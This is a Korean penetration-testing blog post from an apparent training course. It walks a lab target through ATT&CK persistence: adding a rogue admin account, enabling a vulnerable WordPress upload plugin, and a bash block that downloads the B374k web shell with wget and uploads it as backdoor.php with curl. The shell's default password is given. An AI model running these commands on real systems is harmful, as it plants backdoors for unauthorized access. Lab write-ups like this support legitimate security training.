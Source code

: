 ```yaml
---
layout: post
title: fngs.kr | 지속
subtitle: fngs.kr 지속 단계
categories: Pentest
tags: [Pentest, TTPs]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 이전 내용

관리자 계정에 대한 패스워드를 크랙하는데 성공했다. 하지만 해당 계정의 패스워드가 다시 변경 되어 재접근이 힘들 수가 있다. 따라서 지속적으로 접근하기 위한 방법이 필요하다.

## Persistence

지속성은 공격자는 다시 시작, 자격 증명 변경 및 액세스가 차단될 수 있다.

예를 들어, 담담자에 의해 관리자 권한으로 들어온 것이 들통나게 되어 관리자 패스워드 변경 및 접속 차단이 될 수가 있다.

이러한 기타 중단을 대비해 시스템에 대한 액세스를 지속하기 위해 사용하는 기술로 구성됩니다.

### Create Account

해당 관리자 계정의 패스워드가 변경되면 해당 계정으로는 접근이 불가할 것이다. 그렇기에 관리자 권한을 가진 계정을 새롭게 만들 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183037849-82dd9b1c-e2a6-40e4-97d0-5160fbbce36a.png" width = 390>
</p>

실제로는 운용중인 계정이 수도 없이 많을 것이다. 이렇게 계정을 직접 만들면 매번 확인하는게 아니라면 탐지에 어려울 수 있다.

### Server Software Component : Web Shell

자격 증명을 얻고 나서 지속적으로 액세스 하기 위해 **파일 업로드 취약점**이 존재하는 플러그인을 강제로 활성화시켜 웹 쉘을 올릴 것이다.

웹 쉘은 공격자가 웹 서버를 네트워크의 게이트웨이로 사용할 수 있도록 공개적으로 액세스할 수 있는 웹 서버에 배치되는 웹 스크립트입니다.

만약, 공격자가 웹쉘을 통해 CMD 명령을 통해 정보 탈취 및 악의적인 행위를 수행한다면 해당 전술(웹 쉘)에 맵핑이 될 수 없다.

지속적이 아닌 탈취 및 다른 행동이 주 목적이였다면 **Excution > Command and Scripting Interpreter: Windows Command Shell** 전략 및 전술에 포함 될 것이다.

또한, **Persistence > Browser Extensions**가 아닌 이유로는 브라우저 확장을 살펴보면 플러그인에 대한 내용은 악성 브라우저, 플러그인 확정 설치로 설명되어있다. 

그렇다는 것을 우리는 일반적으로 사용하는 플러그인이므로, 악의적으로 만들어진 플러그인이 아니므로 해당 항목에 맵핑 될 수 없다.

다시 돌아와서 플러그인 활성화부터 진행하겠습니다.

[Plug in](https://www.exploit-db.com/exploits/36979)을 설치하여 압축 해제 없이 아래처럼 올리고 활성화 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183234953-2b8ba3a2-051d-4b03-9ad2-ec197f1a4ae5.png" width = 420>
</p>

이렇게 웹 쉘을 올릴 수 있는 환경이 만들어졌고, **B374k** 웹 쉘을 올릴 것이다. (해당 웹 쉘을 Git에도 있으므로, 서칭해보시길 바랍니다.)

```bash
wget [webshell.url]
cp b374k-3.2.3.php ~/backdoor.php
curl -k -X POST -F "action=upload" -F "Filedata=@./backdoor.php" -F "action=nm_webcontact_upload_file" https://dev.fngs.kr/wp-admin/admin-ajax.php
```

이후, http://......../[upload_backdoor_name] 을 통해 접근하면 아래처럼 된다.(웹 쉘 접속 비밀번호 : b374k)

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183235432-954d0584-8972-43ec-a4e4-c3823ec30590.png" width = 420>
</p>

웹 쉘이 정상 작동하는 것을 확인 할 수 있다. 이번에는 2차 침투를 위해 리버스 쉘을 실행할 것이다.